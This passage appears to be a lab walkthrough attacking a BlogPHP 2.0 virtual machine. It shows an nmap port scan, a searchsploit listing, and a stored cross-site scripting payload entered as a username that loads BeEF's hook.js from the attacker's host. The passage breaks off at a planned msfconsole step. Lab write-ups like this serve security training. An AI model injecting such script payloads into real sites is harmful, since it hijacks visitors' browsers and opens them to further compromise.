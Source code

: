 ==> Connection closed


## Second scan

	$ sudo nmap -p- -Pn -n 192.168.110.151
	Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 16:44 CET
	Nmap scan report for 192.168.110.151
	Host is up (0.00015s latency).
	Not shown: 65530 closed tcp ports (reset)
	PORT      STATE SERVICE
	80/tcp    open  http
	111/tcp   open  rpcbind
	65535/tcp open  unknown
	MAC Address: 08:00:27:5D:AF:A9 (Oracle VirtualBox virtual NIC)

	Nmap done: 1 IP address (1 host up) scanned in 1.53 seconds

==> Port 80 is opened

# Search Sploit

	$ searchsploit  blogphp                                                                                                     
	------------------------------------------------------------------------ ---------------------------------
	 Exploit Title                                                          |  Path
	------------------------------------------------------------------------ ---------------------------------
	BlogPHP 1.0 - 'index.php' SQL Injection                                 | php/webapps/27099.txt
	BlogPHP 1.2 - Multiple SQL Injections                                   | php/webapps/27117.txt
	BlogPHP 2 - 'id' Cross-Site Scripting / SQL Injection                   | php/webapps/5042.py
	BlogPHP 2.0 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities | php/webapps/31774.txt
	BlogPHP 2.0 - Persistent Cross-Site Scripting                           | php/webapps/17640.txt <== HERE
	BlogPHP 2.0 - Privilege Escalation / SQL Injection                      | php/webapps/5909.pl
	------------------------------------------------------------------------ ---------------------------------

## xss attack and gain metepreter shell

## beef-xss
	
	$ sudo beef-xss

## Register a new user

	http://192.168.110.151/blog/register.html
	Username : <script src="http://192.168.110.1:3000/hook.js"></script>


## exploit with msfconsole
